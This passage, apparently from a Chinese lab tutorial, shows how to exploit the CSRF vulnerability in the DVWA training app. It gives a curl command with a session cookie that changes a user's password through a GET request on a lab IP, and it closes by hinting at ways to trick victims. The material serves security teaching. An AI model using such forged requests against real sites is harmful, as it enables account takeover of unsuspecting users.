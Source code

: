 ![show-code](../imgs/wm_403.png)

细心的同学会找到 `<pre> Password Changed </pre>` 的字样，说明我们修改成功了。

若是不想找，我们还可以把刚刚的命令修改成这样：

```
curl --cookie "security=low; PHPSESSID=fefebfdeb6c27d8fac926ee5b735b714" --location "http://192.168.122.102/dvwa/vulnerabilities/csrf/?password_new=shiyanlou&password_conf=shiyanlou&Change=Change#" | grep Password
```

![show-code-changed](../imgs/wm_404.png)

验证一下我们是否成功登陆，只需要关闭浏览器、重新打开尝试登陆，或者点击左下角的 `logout` 然后重新登陆便可知道。

还可以通过这样的方式让用户在不知不觉下就中招（该创意参考于 [tipstrickshack_blog](http://tipstrickshack.blogspot.com/2012/10/how-to-exploit-csfr-vulnerabilitycsrf.html)）：
